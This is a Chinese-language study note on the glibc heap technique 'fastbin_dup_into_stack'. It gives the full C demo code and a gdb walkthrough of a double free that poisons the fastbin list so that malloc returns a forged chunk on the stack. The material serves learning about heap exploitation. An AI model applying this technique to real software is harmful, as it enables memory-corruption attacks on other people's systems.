







# fastbin_dup_into_stack.log
如果对fastbin不熟悉，请先阅读fastbin_dup.log篇。

## Code
```cpp
int main()
{
	printf("This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	printf("The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	printf("Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	printf("1st malloc(8): %p\n", a);
	printf("2nd malloc(8): %p\n", b);
	printf("3rd malloc(8): %p\n", c);

	printf("Freeing the first one...\n");
	free(a);

	printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	printf("So, instead, we'll free %p.\n", b);
	free(b);

	printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	printf("Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
	unsigned long long *d = malloc(8);

	printf("1st malloc(8): %p\n", d);
	printf("2nd malloc(8): %p\n", malloc(8));
	printf("Now the free list has [ %p ].\n", a);
	printf("Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x21;

	printf("Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	printf("3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	printf("4th malloc(8): %p\n", malloc(8));
}
```

## Environment
Ubuntu x64 libc.so.23

gdb调试，b printf

## Trace
C代码中的非格式化的printf会被编译器优化成puts。所以第一次断在程序中的第二个printf处。finish返回：


stack_var想要作为伪造chunk的curSize(3 flag bits)，64位环境长度为8字节，所以精心构造malloc返回的地方应该是(char*)stack_var+8的地方。stack_var根据chunk的尺寸，伪造成21（其实对于fastbin来说，20也行，但21是字面意义上最正确的）。

经过3次malloc，此时的chunk：


经过3次free：


此时fastbin->0x603410(chunk a)->0x603430(chunk b)->0x603410(chunk a)->...

第一次malloc，指针d指向的就是chunk a的Alloc域，也就是0x603420：


第二次malloc分配原本的chunk b，不关心。
第三次malloc分配之前，我们要先改掉d指向的区域，也就是下一次要分配到的原本的chunk a的fd指针，改成指向栈空间的(char*)stack_var-16的地址，这里16是preSize+curSize的大小。

执行第三次malloc之前：


可以看到此时我们已在待分配的chunk上设置了fd指针指向0x7fffffffde28：


第三次malloc分配的依然是chunk a，但此时由于改动了chunk a的fd指针，导致原本的fastbin循环链被破坏，分配之后，fastbin不再指向chunk b，而指向了伪造的chunk，即0x7fffffffde28。

第四次malloc，分配的就是伪造的chunk：


常见的还有将chunk伪造在.bss段上，利用思路是一样的，关键在于对fastbin chunk的理解。